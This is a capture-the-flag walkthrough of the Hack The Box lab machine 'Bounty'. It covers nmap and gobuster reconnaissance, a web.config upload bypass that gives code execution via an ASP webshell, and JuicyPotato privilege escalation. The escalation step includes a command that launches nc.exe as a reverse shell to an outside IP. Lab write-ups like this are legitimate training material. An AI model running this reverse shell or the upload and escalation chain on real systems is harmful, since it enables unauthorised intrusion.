 ```yaml
---
title: "[HTB] Machine: Bounty"
description: "[HTB] Machine: Bounty"
date: 2023-06-07
menu:
  sidebar:
    name: "[HTB] Machine: Bounty"
    identifier: htb-machine-bounty
    parent: htb-machines-windows
    weight: 10
hero: images/bounty.png
tags: ["HTB"]
---
```


# Bounty
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.93                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 16:26 BST
Nmap scan report for 10.10.10.93 (10.10.10.93)
Host is up (0.098s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.31 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.93 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x asp,aspx 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,apsx
[+] Timeout:                 10s
===============================================================
2023/06/10 16:39:26 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/UploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/UploadedFiles/]
/uploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedFiles/]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
Progress: 661634 / 661683 (99.99%)
===============================================================
2023/06/10 17:15:00 Finished
===============================================================
```
- Web server

![](./images/1.png)

## Foothold/User
- We see `transfer.aspx` and `uploadedFiles` endpoints available

![](./images/2.png)
![](./images/3.png)

- Let's upload a file
  - Success

![](./images/4.png)
![](./images/5.png)

- But I couldn't upload a file with `aspx` extension
  - there is a [blog](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
  - and [this one](https://soroush.me/blog/2019/08/uploading-web-config-for-fun-and-profit-2/) from the same author
  - Test out the `poc`
  - And we see that we have `rce`

![](./images/7.png)

- I was trying different variations of `poc` but had no success
  - Turns out, I broke the box so I needed to reboot it
  - Then I used the same `poc` from the first blog as in the picture above
  - But added few modifications, using `/usr/share/webshells/asp/cmdasp.asp`

![](./images/13.png)
![](./images/6.png)

- Let's upload and run it
  - And we get our foothold

![](./images/8.png)
![](./images/9.png)

## Root
- Enumerate privileges
  - `whoami /priv`
  - We see `SeImpersonatePrivilege`

![](./images/11.png)

- Let's run [JuicyPotato](https://github.com/decoder-it/juicy-potato)
  - So download `binary` and `nc.exe`
  - Set up new listener
  - `.\jp.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\users\merlin\downloads\nc.exe 10.10.16.3 7777 -e cmd.exe" -t *`
  - And root the box

![](./images/12.png)
![](./images/13.png)

